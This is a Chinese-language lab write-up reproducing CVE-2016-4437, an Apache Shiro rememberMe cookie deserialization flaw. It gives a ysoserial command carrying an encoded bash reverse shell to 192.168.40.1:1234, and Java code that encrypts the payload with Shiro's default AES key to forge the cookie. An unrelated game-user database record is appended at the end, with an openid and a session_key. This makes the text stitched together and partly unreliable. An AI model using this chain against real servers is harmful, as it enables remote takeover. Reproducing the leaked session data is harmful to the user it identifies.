


# CVE-2016-4437

## 漏洞说明

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 影响版本

Apache Shiro <= 1.2.4

## 前置知识

shiro的加密方式：

​	1、shiro框架在输入任意用户名密码登录后，响应包返回Set-Cookie: rememberMe=deleteMe，可以根据此特征探测shiro框架，rememberMe也可能被修改成其他字段，可依靠deleteMe特征判断。

​	2、服务端接收到Cookie后，①检索RememberMe Cookie的值 -> ②Base64解码 -> ③AES解密(加密密钥硬编码，一般防护方法为修改这里的默认密钥) -> ④反序列化(未进行过滤，可导致RCE)

## 靶场搭建

```shell
 cd /root/vulhub-master/shiro/CVE-2016-4437
 docker-compose up -d
```


访问http://ip:8080


## 漏洞复现

输入任意用户名密码登录抓包，返回包存在shiro特征


攻击机开启监听


生成反弹shell命令


序列化编码后的命令

[ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar)

```shell
java -jar ysoserial-all.jar CommonsBeanutils1 "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}" > poc.ser
```


利用Shiro默认密钥对poc.ser进行AES加密

```java
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.charset.Charset;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        Files.write(FileSystems.getDefault().getPath("/tmp/poc.txt"),ciphertext.toString().getBytes(Charset.forName("UTF-8")));
        System.out.printf(ciphertext.toString());
    }
}
```



[slf4j-api-2.0.9](https://repo1.maven.org/maven2/org/slf4j/slf4j-api/2.0.9/slf4j-api-2.0.9.jar)

[shiro-core-1.12.0](https://repo1.maven.org/maven2/org/apache/shiro/shiro-core/1.12.0/shiro-core-1.12.0.jar)

Javac编译shiro.java

```shell
javac -classpath shiro-core-1.12.0.jar Shiro.java
```


```shell
java -classpath .:shiro-core-1.12.0.jar:slf4j-api-2.0.9.jar:logback-classic-2.0.9 Shiro
```




{
  "_id": {
    "$numberLong": "562297101095076096"
  },
  "openid": "oN4x15DWWWCzY6ORrgq30RHiNV68",
  "session_key": "LA/ksxr76QOzVmrahI4emw==",
  "userName": "562297101095076096",
  "loginTime": {
    "$numberLong": "1682066113795"
  },
  "createTime": {
    "$numberLong": "1680939355876"
  },
  "userInfo": {
    "avatarUrl": "https://thirdwx.qlogo.cn/mmopen/vi_32/Q0j4TwGTfTK2sXbGK8nLDicNCzVAx7ytGZibYn3LClrnTKzv5Fmuj5wUvukmusKjSOaibdlG5iaWIuXRAmf9qT8rgQ/132",
    "nickName": "黑白"
  },
  "areaId": 14,
  "grade": 1,
  "grade_score": 0,
  "season": 3,
  "gradeAwardIds": [],
  "skin": 2000003,
  "finishGuide": true,
  "recHookTime": 1682065918,
  "_class": "game.db.WzCharacter"
}